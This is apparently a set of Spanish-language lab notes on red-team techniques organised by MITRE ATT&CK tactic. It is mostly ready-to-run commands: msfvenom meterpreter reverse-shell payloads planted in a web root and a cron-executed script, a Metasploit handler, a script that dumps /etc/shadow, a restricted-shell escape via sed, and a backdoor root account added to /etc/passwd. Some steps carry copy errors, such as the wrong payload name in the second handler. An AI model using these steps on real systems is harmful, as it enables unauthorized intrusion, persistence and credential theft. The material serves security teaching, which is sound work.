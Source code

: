 # Laboratorio 12-13. Técnicas de Red Team a través del MITRE ATT&CK (Parte 2)

## Bloque 1: MITRE ATT&CK fase 4. TA0002. Execution (continuación) 

### Ejercicio L12B1_METERPRETER: Meterpreter para explotación (T1569. System Services)
Podemos ver los workspaces de metasploit, crearlos y borrarlos.
```sh
workspace
workspace -a <nombre>
workspace -d <nombre>
workspace <nombre del workspace>
```

Podemos ejecutar nmap desde metasploit.
```sh
db_nmap -sV <IP>
```

Podemos buscar exploits en la base de datos de Metasploit.
```sh
search <PALABRAS CLAVE>
```

Para usar un exploit
```sh
use <exploit> - set payload <payload> - show options - set options <…> - exploit
```

Podemos ver la lista de payloads
```sh
show payloads
```

Podemos obtener información de un exploit
```sh
info <nombre completo del exploit>
```

### Payloads con msfvenom y multi/handler
Creamos un payload
```sh
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.12.2 LPORT=4444 -f raw > shell.php
```

Lo transferimos a la víctima
```sh
scp shell.php testUser@192.168.12.3:/var/www/html/
```

Ahora en la máquina atacante ponemos el multi/hander en escucha
```sh
msfconsole

use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST 192.168.12.2
set LPORT 4444
run
```

Ahora, cuando alguien acceda a la ruta donde se encuentra el exploit, obtendremos la sesión de meterpreter.
```sh
curl http://192.168.12.3/shell.php
```

## Bloque 2: MITRE ATT&CK fase 6: TA0004. Privilege scalation

### Escalada de privilegios a través de trabajos cron: Exfiltración de información privada (T1053. Scheduled Task/Job)
Podemos modificar archivos que ejecutan tareas cron para saltarnos diversas restricciones de seguridad. Si una tarea ejecuta un archivo python, podemos modificarlo para que nos muestre, por ejemplo, /etc/shadow

La información sobre las tareas programadas se encuentra en /etc/crontab. Los outputs de estas tareas est.an en /var/log/cron.log

```py
import os

shadow_file_path = '/etc/shadow'

if os.path.exists(shadow_file_path) and os.path.isfile(shadow_file_path):
    try:
        with open(shadow_file_path, 'r') as file:
            content = file.read()
            print(content)
    except PermissionError:
        print("Permiso denegado: Necesitas ser root para leer este archivo.")
else:
    print("/etc/shadow no existe o no es un archivo.")

```

### Escalada de privilegios mediante la sustitución de ejecutables / dependencias: Reverse shells de Msfvenom (T1053. Scheduled Task/Job)
Procedemos igual que antes
```sh
msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.12.2 LPORT=4444 -f raw > integrity_check.py
```

Lo transferimos a la víctima
```sh
scp shell.php testUser@192.168.12.3:/tmp/integrity_check.py
```

Ahora en la máquina atacante ponemos el multi/hander en escucha
```sh
msfconsole

use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST 192.168.12.2
set LPORT 4444
run
```

Y esperamos a que la tarea se ejecute, con lo que nos dará acceso al sistema.

## Bloque 3: MITRE ATT&CK fase 6: TA0004. Privilege scalation (continuación)

### Romper restricciones y ocultar actividades (T1548. Abuse Elevation Control Mechanism)
Si tenemos una consola restringida podemos saltarnos esta restricción con el comando sed
```sh
sed -n '1e exec sh 1>&0' /etc/hosts
```
Ejecutando esto obtendremos una consola si restricciones.

### Identificación de programas sudo (T1548. Abuse Elevation Control Mechanism)
Se puede comprobar la lista de programas que podemos ejecutar con sudo con
```sh
sudo -l
```

### Generar una contraseña válida para un usuario de Linux (T1078. Valid Accounts)
Podemos generar el hash de una contraseña con mkpasswd
```sh
mkpasswd --method=SHA-256
```

Y introducir una entrada en /etc/passwd
```sh
hacker:$6$randomsalt$Xk3kf8NznO3AdU.dkjdfk...:0:0:root:/root:/bin/bash
```

Podemos loguearnos para comprobar que funciona
```sh
su - hacker
```

### Identificación de programas SUID (T1548. Abuse Elevation Control Mechanism)
Los archivos con los bits SETUID o SETGID activos nos permiten que un programa se ejecute temporalmente con los privileguos del propietario del archivo para realizar una tarea que los requiera.
```sh
find / -perm -u=s -type f 2>/dev/null
chmod +s                                    #Activa el bit
```

### Escalada de privilegios a través de programas SUID (T1548. Abuse Elevation Control Mechanism)

### Escalada de privilegios potencial a través de técnicas de inspección ejecutables (T1078. Valid Accounts)
Podemos inspeccionar archivos ejecutables para buscar posibles credenciales hardocdeadas
```sh
strings <RUTA_ARCHIVO>
```